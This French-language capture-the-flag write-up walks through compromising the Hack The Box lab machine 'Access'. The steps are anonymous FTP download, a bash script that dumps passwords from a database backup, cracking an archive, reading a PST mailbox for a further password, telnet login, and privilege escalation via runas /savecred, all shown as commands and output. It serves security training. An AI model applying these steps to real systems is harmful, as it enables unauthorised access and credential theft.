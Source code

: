 # Access writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)

Informations
----
    Ip : 10.10.10.98       Created by : egre55
    Level : Very easy            Base Points : 20
    
Scan Nmap
----
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
 Après avoir effectué le scan, nous avons 3 ports ouverts, le (21) pour le FTP, le (23) pour le telnet, et le (80) pour le httpd. Le FTP peut être accéder en tant que anonymous donc nous allons essayer d'énumérer.
 
FTP Enumeration
----
Pour la connexion au serveur FTP, l'utilisateur et le mot de passe 'anonymous:anonymous'.

    root@Computer:~/htb/writeup/Access# ftp 10.10.10.98
    Connected to 10.10.10.98.
    220 Microsoft FTP Service
    Name (10.10.10.98:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp>
 
 La connexion c'est déroulais avec succès donc essayons de lister les fichiers dans le dossier.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM       <DIR>          Backups
    08-24-18  09:00PM       <DIR>          Engineer
    226 Transfer complete.
    ftp>
    
Comme vous pouvez le voir, il y'a un dossiers Backups et un dossier Engineer. Dans le dossier Backups il y'a un fichier mdb, pour les bases de données, et dans le dossier Engineer il y'a un fichier zip. Donc nous allons transférer c'est fichiers vers notre machine physique avec la commande **mget [file]**, avant de transférer nous devons passer de ASCII à BINAIRE.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM              5652480 backup.mdb
    226 Transfer complete.
    ftp> binary
    200 Type set to I.
    ftp> mget backup.mdb
    mget backup.mdb? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    5652480 bytes received in 7.70 secs (716.7322 kB/s)
    ftp> cd ..
    250 CWD command successful.
    ftp> cd Engineer
    250 CWD command successful.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-24-18  12:16AM                10870 Access Control.zip
    226 Transfer complete.
    ftp> mget "Access Control.zip"
    mget Access Control.zip? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    10870 bytes received in 0.83 secs (12.7677 kB/s)
    ftp> 

Voilà les fichiers ont été transférer avec succès, sans aucun problème donc nous pouvons quitter le serveur FTP. Et d'énumérer c'est fichiers.

Enumeration MDB
----
Nous allons installer un petit programme pour dump tout ça. Vous devez installé le paquet **mdbtools** avec apt, vous pouvez aussi également utilisé la version GUI avec **mdbtools-gmdb2**.

Pour voir les tables utilisé la commande :

    root@Computer:~/htb/writeup/Access# mdb-tables -1 backup.mdb
    [...SNIP...]
    auth_user
    [...SNIP...]
    
J'ai créer un petit script en bash pour automatisé tout ça, et de chopper les mots de passes plus facilement grâce à mon petit script en bash.

    #!/bin/sh

    name_file=$1
    # This variable will be the file.

    for tables_names in $(mdb-tables -1 $name_file)
    do
      ExportCommand=("mdb-export $name_file $tables_names")
      # Will execute the command.
      if [ "$ExportCommand" != '' ]; then
        $ExportCommand|grep ,26,
      fi
    done
    
Et la sortie du fichier :

    root@Computer:~/htb/writeup/Access# bash server.sh backup.mdb 
    25,"admin","admin",1,"08/23/18 21:11:47",26,
    27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
    28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
    root@Computer:~/htb/writeup/Access#

Parfait nous avons des identifiants. Les mots de passes trouvé peut correspondre au fichier ZIP que nous allons extraire sous Linux.

Archive ZIP
----
    root@Computer:~/htb/writeup/Access# unzip Access\ Control.zip 
    Archive:  Access Control.zip
       skipping: Access Control.pst      unsupported compression method 99
    root@Computer:~/htb/writeup/Access#

Donc visiblement le programme ne peut pas supporter donc après avoir chercher sur le web pendant beaucoup de temps nous allons essayer avec le programme 7zip, et essayer d'extraire ce fichier.

    root@Computer:~/htb/writeup/Access# 7z x Access\ Control.zip 

    7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
    p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

    Processing archive: Access Control.zip

    Extracting  Access Control.pst
    Enter password (will not be echoed) :


    Everything is Ok

    Size:       271360
    Compressed: 10870
    root@Computer:~/htb/writeup/Access#
    
Parfait avec l'outil 7z, l'extraction fonctionne parfaitement il suffit d'utiliser l'option 'x' pour extraire les fichiers. Donc ça été extrait avec succès donc à la sortie nous avons un fichier pst.

Donc ce fichier il y'a rien de spécial, un code inintellegible. Donc pour lire un fichier PST, vous devez installé readpst. avec la commande apt.

    sudo apt-get install libgsf-1-dev libboost-python-dev

Pour lire le fichier donc il faut tapé la commande ci-dessous :

    root@Computer:~/htb/writeup/Access# readpst Access\ Control.pst -o .
    Opening PST file and indexes...
    Processing Folder "Deleted Items"
            "Access Control" - 2 items done, 0 items skipped.
    root@Computer:~/htb/writeup/Access#

Parfait donc le programme à réussi a lire le fichier PST, visiblement c'est un fichier HTML, donc essayer de mettre dans /var/www/html de lancer le serveur apache2 et de voir directement la sortie.

Donc nous voyons un identifiant :

    The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
    
Donc lançons telnet et on se connecte au serveur. Avec la commande taper ci-dessous.

    root@Computer:~/htb/writeup/Access# telnet 10.10.10.98
    Trying 10.10.10.98...
    Connected to 10.10.10.98.
    Escape character is '^]'.
    Welcome to Microsoft Telnet Service 

    login: security
    password: 

    *===============================================================
    Microsoft Telnet Server.
    *===============================================================
    C:\Users\security> cd Desktop
    C:\Users\security\Desktop> more user.txt
    [...SNIP...]b48913b213a31ff6756d2553d38
    
PrivEsc
----
Le privesc rien de compliqué suffit d'utilisé la commande runnas.

    C:\Users\security\Documents>runas /user:ACCESS\Administrator /savecred "cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\temp\flag"

    C:\Users\security\Documents>more C:\temp\caca
    [...SNIP...]230a8d297e8f933d904cf

    C:\Users\security\Documents>

